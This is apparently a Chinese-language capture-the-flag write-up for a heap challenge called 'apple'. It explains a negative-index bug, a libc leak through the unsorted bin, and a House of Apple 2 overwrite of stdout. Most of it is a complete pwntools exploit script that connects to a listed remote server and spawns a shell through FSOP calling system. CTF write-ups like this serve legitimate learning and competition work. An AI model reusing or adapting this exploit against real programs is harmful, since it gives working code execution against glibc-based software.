


# apple

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.8|

## 解题思路

可以任意堆块分配，且idx可以小于0。添加堆块时无法写入内容，只有1次edit。

首先分配大堆块并释放，利用unsorted bin的特性获取libcbase，然后分配`idx=12`的堆块，
这样`sizes[-8] == (int)notes[12]`，方便等一下利用。最后edit选择-8号堆块，即`stdout`，
然后我们就可以编辑`stdout`的内容。



参照House of Apple 2调整`_IO_2_1_stdout_`的内容，使其能在退出时调用
`system('  sh;')`，然后编辑完成后程序返回，触发FSOP，执行命令拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './apple'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x15e7)')
    else:
        sh = remote('139.155.126.78', 39262)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')
    main_arena = 0x21ac80
    
    def add(idx: int, size: int):
        sh.sendafter(b'choice', p32(1))
        sh.sendafter(b'index', p32(idx))
        sh.sendafter(b'long', p32(size))

    def delete(idx: int):
        sh.sendafter(b'choice', p32(2))
        sh.sendafter(b'index', p32(idx))

    def show(idx: int) -> bytes:
        sh.sendafter(b'choice', p32(3))
        sh.sendafter(b'index', p32(idx))
        sh.recvuntil(b'>>>\n')
        return sh.recvuntil(b"1. ", True)

    def edit(idx: int, cont: bytes):
        sh.sendafter(b'choice', p32(4))
        sh.sendafter(b'index', p32(idx, sign=True))
        sh.sendafter(b'>>>\n', cont)

    add(0, 0x410)
    add(1, 0x20)
    delete(0)
    libcBase = u64(show(0)[:6] + b'\0\0') - main_arena - 0x60 # unsorted bin offset
    libc.address = libcBase
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    add(12, 0x20) # now -8 has size

    fakeFile = flat({
        0x0:    b'  sh;',
        0x28:   1,
        0x68:   libc.symbols['system'],
        0xa0:   libc.symbols['_IO_2_1_stdout_'],
        0xd8:   libc.symbols['_IO_wfile_jumps'],
        0xe0:   libc.symbols['_IO_2_1_stdout_'],
        }, filler=b'\0')
    edit(-8, fakeFile)

    sh.clean()
    sh.interactive()
    sh.close()
```



## 参考

[House of apple 一种新的glibc中IO攻击方法 (2)](https://bbs.kanxue.com/thread-273832.htm)
